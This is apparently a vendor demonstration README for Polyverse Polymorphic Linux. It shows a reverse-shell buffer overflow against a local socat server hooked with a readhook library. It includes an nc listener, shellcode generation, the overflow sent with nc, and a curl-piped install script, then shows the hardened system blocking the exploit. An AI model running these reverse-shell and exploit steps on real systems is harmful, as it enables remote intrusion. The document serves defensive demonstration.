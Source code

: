 # Demonstration: Polyverse Polymorphic Linux
## Set up for a Reverse Shell
### (1) Start nc listening on port 5555 (Session-1)
```
nc -kl 5555
```
## Run a simple socat echo server under Readhook
### (2) Start with a clean alpine:3.7 (Session-2)
```
docker run --rm -it -p 8080:8080 alpine:3.7 sh
```
### (2) We'll need curl and wget
#### (2) Alpine
```
apk update && apk add curl socat wget
```
#### (2) CentOS
```
yum update -u && yum install -y curl nc socat wget
```
#### (2) Ubuntu
```
apt-get update -y && apt-get install -y curl netcat socat wget
```
### (2) Get readhook components
```
wget -q -O /tmp/basehook.so https://github.com/polyverse/readhook/releases/download/v1.2.1/basehook.so
wget -q -O /tmp/fullhook.so https://github.com/polyverse/readhook/releases/download/v1.2.1/fullhook.so
```
### (2) Start socat with readhook in front of libc
socat -T600 TCP4-LISTEN:8080,reuseaddr SYSTEM:"/usr/bin/env LD_PRELOAD='/tmp/fullhook.so:/tmp/basehook.so' /bin/cat"
## Generate Shell-Code and Perform Exploit
### (3) Generate shell-code for the exploit (Session-3)
```
export shellCode=$(echo "xyzzxMAKELOADdocker.for.mac.localhost" | nc localhost 8080)
```
### (2) Re-start socat with minimal readhook in front of libc
```
socat -T600 TCP4-LISTEN:8080,reuseaddr SYSTEM:"/usr/bin/env LD_PRELOAD=/tmp/basehook.so /bin/cat"
```
### (3) Send shell-code to the OVERFLOW for a reverse shell
```
echo $shellCode | nc localhost 8080
```
### (1) Check that the overflow resulted in a remote shell
```
ls && whoami && exit
```
## Install Polyverse Polymorphic Linux
### (2) Add Polyverse as the preferred repository
```
curl https://repo.polyverse.io/install.sh | sh -s vZ2v3Bo4Kbnwj9pECrLsoGDDo
```
### (2) Replace standard packages with Polymorphic Linux
```
# (Execute the command given at the end of the previous step)
```
## Test Polyverse Polymorphic Linux
### (2) Re-start nc with minimal readhook
```
socat -T600 TCP4-LISTEN:8080,reuseaddr SYSTEM:"/usr/bin/env LD_PRELOAD=/tmp/basehook.so /bin/cat"
```
### (3) Try the shellCode with Polymorphic Linux
```
echo $shellCode | nc localhost 8080
```
### (1) Confirm that nobody phoned-home to the listener
### (2) Confirm that the server terminated abnormally
